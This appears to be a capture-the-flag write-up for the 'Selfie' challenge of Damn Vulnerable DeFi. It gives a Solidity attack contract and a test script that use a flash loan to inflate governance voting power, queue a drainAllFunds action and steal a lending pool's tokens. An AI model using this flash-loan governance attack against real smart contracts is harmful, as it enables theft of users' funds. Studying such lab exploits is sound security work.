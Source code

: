 ## GOAL
You start with no DVT tokens in balance, and the pool has 1.5 million. Your objective: take them all.

## Examning The Code
We have a flashLoan function and queue action that allow us to queue action and has parameters receiver,data,weiAmount. There is a requirement that it has _hasEnoughVotes. If you look at the _hasEnoughVotes you will see that is being proccessd according to the balance of the user.

## Exploit
We can take a flashLoan and deposit, so _hasEnoughVotes will be validated true. We pass data in the queue function, the data will call the drainAllFunds and pass our address as parameter. So that we will have all tokens.

## Solution
```solidity
import "../selfie/SelfiePool.sol";
import "../DamnValuableTokenSnapshot.sol";

contract AttackSelfie{

    DamnValuableTokenSnapshot public governanceToken;
    SelfiePool pool;
    address owner;

    constructor(address _pool,address _governanceToken,address _owner)
    {
        pool = SelfiePool(_pool);
        governanceToken = DamnValuableTokenSnapshot(_governanceToken);
        owner = _owner;
    }

    function attack() public {
        pool.flashLoan(pool.token().balanceOf(address(pool)));
    }

    function receiveTokens(address token,uint256 amount) public{
        governanceToken.snapshot(); //since when queue an Action it checks if we have high vote which checks the latest snapshot
        pool.governance().queueAction(
            address(pool),
            abi.encodeWithSignature("drainAllFunds(address)", owner),
            0
        );

        //return funds
        governanceToken.transfer(address(pool), amount);
    }

}
```

```javascript
const deploying = await ethers.getContractFactory("AttackSelfie",attacker);
const attackerContract = await deploying.deploy(
    this.pool.address,
    this.token.address,
    attacker.address
)
await attackerContract.attack();
await ethers.provider.send("evm_increaseTime", [2 * 24 * 60 * 60]); // 5 days

const attackGovernenceContract = this.governance.connect(attacker);
await attackGovernenceContract.executeAction(1);
```